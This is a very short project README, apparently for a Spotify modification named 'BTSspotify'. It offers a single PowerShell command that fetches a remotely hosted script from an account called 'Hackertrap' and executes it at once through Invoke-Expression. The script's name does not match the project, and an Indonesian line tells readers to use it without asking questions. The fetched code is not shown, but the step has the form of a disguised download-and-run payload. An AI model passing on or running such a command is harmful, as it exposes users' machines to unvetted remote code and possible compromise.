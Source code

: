 # BTSspotify

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-Expression "& { $(Invoke-WebRequest -UseBasicParsing 'https://raw.githubusercontent.com/Hackertrap/BTSspotify/refs/heads/main/SayMavenContribution.ps1') } -UninstallSpotifyStoreEdition -UpdateSpotify"

Pakai aja jangan banyak tanya
